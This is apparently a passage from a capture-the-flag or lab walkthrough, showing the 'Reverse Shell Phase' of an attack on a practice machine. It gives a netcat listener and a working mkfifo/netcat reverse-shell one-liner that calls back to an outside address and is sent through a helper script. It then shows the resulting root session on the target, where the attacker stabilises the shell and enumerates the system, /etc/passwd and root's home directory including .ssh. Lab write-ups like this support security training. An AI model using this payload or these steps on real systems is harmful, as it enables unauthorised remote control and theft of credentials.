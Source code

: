 > **Reverse Shell Phase**
> 

`nc -nlvp 10222`

```powershell
listening on [any] 10222 ...
```

**PAYLOAD:**

```powershell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.37.37 10222 >/tmp/f
```

`python3 compser.py 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.37.37 10222 >/tmp/f'`

```powershell
listening on [any] 10222 ...
connect to [10.2.37.37] from (UNKNOWN) [10.10.192.181] 36328
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# pwd
/home
# SHELL=/bin/bash script -q /dev/null
root@8b39a559b296:/home# export TERM=xterm

root@8b39a559b296:/home# uname -a
Linux 8b39a559b296 4.4.0-186-generic #216-Ubuntu SMP Wed Jul 1 05:34:05 UTC 2020 x86_64 GNU/Linux
root@8b39a559b296:/home# dpkg --version
Debian 'dpkg' package management program version 1.19.7 (amd64).
This is free software; see the GNU General Public License version 2 or
later for copying conditions. There is NO warranty.

root@8b39a559b296:/home# ls -lsa /home
total 28
4 drwxr-xr-x 1 root root 4096 Oct  3  2020 .
4 drwxr-xr-x 1 root root 4096 Oct  3  2020 ..
4 drwxrwxr-x 8 root root 4096 Oct  3  2020 .git
4 drwxrwxr-x 2 root root 4096 Oct  3  2020 .vscode
4 -rwxrwxr-x 1 root root   95 Oct  3  2020 requirements.sh
4 -rwxrwxr-x 1 root root   46 Oct  3  2020 run.sh
4 drwxrwxr-x 1 root root 4096 Oct  3  2020 site
root@8b39a559b296:/home# cat /etc/passwd | grep '/bin/bash'
root:x:0:0:root:/root:/bin/bash

root@8b39a559b296:/home# cd ~
root@8b39a559b296:~# ls -lsa
total 36
4 drwx------ 1 root root 4096 Oct  3  2020 .
4 drwxr-xr-x 1 root root 4096 Oct  3  2020 ..
4 -rw------- 1 root root  889 Oct  6  2020 .bash_history
4 -rw-r--r-- 1 root root  570 Jan 31  2010 .bashrc
4 drwxr-xr-x 3 root root 4096 Oct  3  2020 .cache
4 drwxr-xr-x 3 root root 4096 Oct  3  2020 .local
4 -rw-r--r-- 1 root root  148 Aug 17  2015 .profile
0 -rw------- 1 root root    0 Sep 24  2020 .python_history
4 drwx------ 2 root root 4096 Oct  3  2020 .ssh
4 -rw-r--r-- 1 root root  254 Oct  3  2020 .wget-hsts

root@8b39a559b296:~# 
```
